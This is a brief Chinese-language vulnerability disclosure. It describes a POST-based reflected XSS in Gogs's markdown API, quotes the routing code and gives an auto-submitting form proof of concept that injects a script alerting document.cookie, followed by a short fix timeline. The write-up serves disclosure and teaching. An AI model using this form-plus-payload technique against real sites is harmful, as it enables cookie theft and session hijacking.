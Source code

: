 ### 通过form利用gogs的post型反射型xss

### 审计

在审计gogs代码时发现gogs的api允许渲染markdown.最初以为是无法利用的,但发现gogs这个api返回的content-type是html,并且没有csrf机制.

```go
m.Group("/v1", func() {
	// Handle preflight OPTIONS request
	m.Options("/*", func() {})

	// Miscellaneous
	m.Post("/markdown", bind(api.MarkdownOption{}), misc2.Markdown)
	m.Post("/markdown/raw", misc2.MarkdownRaw)
```

但这个api仅仅允许post方法,不能通过常见的get方法来进行xss.



### 构造poc

无法直接通过url 提交一个post请求,但可以通过form元素进行提交并直接重定向. 

最简单的提交例子

```html
<form name=Form action=url method=post>
 <input type=hidden name=xxx value=xxx>
</form>
<script>
 document.Form.submit();
</script>
```

这和csrf都是通过伪造请求来利用 只是csrf是通过xhr请求 这是通过form来得到需要的重定向.



最后的poc

```html
 <html> 

<body onload="document.forms[0].submit()"> 

<form method="post"
   action="http://try.gogs.io/api/v1/markdown"> 

   

<input type="hidden" name="text"
   value="<script>alert(document.cookie)</script>"> 

</form> 

</html> 
```



漏洞时间线

```
1.25 发送提交漏洞邮件
1.25 一小时后得到第一次回应
1.27 漏洞修复
```

